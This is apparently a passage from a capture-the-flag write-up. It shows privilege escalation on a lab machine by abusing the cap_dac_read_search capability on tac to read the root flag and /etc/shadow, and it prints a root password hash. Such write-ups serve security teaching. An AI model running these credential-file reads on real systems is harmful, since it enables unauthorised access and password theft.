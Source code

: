     
    
    monitor@waldo:~/app-dev$ ls -l /var/log/auth.log
    -rw-r----- 1 root adm 16283 Aug  9 12:18 /var/log/auth.log
    

The obvious answer would be the SUID bit on the executable, but (as you can
see above) it’s not set.

### Capabilities

Linux has a concept of [capabilities](http://man7.org/linux/man-
pages/man7/capabilities.7.html), which allow you to assign a program rights to
do certain things typically reserved for root. So, for example, the
`CAP_NET_BIND_SERVICE` capability allows a program not running as root to bind
to a port under 1024.

If I look at this program, using `getcap`, I’ll see it has a capability
assigned:

    
    
    monitor@waldo:~/app-dev$ getcap v0.1/logMonitor-0.1
    v0.1/logMonitor-0.1 = cap_dac_read_search+ei
    

`CAP_DAC_READ_SEARCH` allows the program to bypass file and directory read
permission checks. Neat.

the `+ei` means that the capability is:

  * (e)ffective - used by the kernel to perform permission checks
  * (i) inheritable - preserved across execve or fork calls

### tac

After spending some time trying to figure out how to exploit `logMonitor-0.1`,
I decided to look for other files with capabilities on the box:

    
    
    monitor@waldo:~/app-dev$ find / -exec getcap {} \; 2>/dev/null
    /usr/bin/tac = cap_dac_read_search+ei
    /home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
    

`tac` is just reverse `cat`, as it in prints contents of files to stdout, but
last line first.

With `tac`, I can get the root flag:

    
    
    monitor@waldo:~/app-dev$ tac /root/root.txt
    8fb67c84...
    

If I wanted to read other files with more than one line, just `tac` twice:

    
    
    monitor@waldo:/$ tac /etc/shadow | tac
    root:$6$tRIbOmog$v7fPb8FKIT0QryKrm7RstojMs.ZXi4xxHz2Uix9lsw52eWtsURc9dwWMOyt4Gpd6QLtVtDnU1NO5KE5gF48r8.:17654:0:99999:7:::
    daemon:*:17653:0:99999:7:::
    bin:*:17653:0:99999:7:::
    sys:*:17653:0:99999:7:::
    sync:*:17653:0:99999:7:::
    ...[snip]...
    